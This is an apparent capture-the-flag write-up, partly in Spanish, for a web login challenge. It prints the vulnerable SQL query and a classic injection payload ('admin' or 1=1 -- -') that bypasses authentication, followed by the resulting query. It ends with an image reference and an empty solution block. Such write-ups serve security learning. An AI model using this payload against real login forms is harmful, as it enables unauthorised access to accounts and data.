 Description Can you login to this website? Additional details will be available after launching your challenge instance.

username: 734521
password: 0
SQL query: SELECT * FROM users WHERE name='734521' AND password='0'


admin' or 1=1 -- -

username: admin' or 1=1 -- -password: admin' or 1=1 -- -SQL query: SELECT * FROM users WHERE name='admin' or 1=1 -- -' AND password='admin' or 1=1 -- -'Logged in! But can you see the flag, it is in plainsight.

Vemos código fuente:
![[Pasted image 20250405210908.png]]


## Solución:

```

```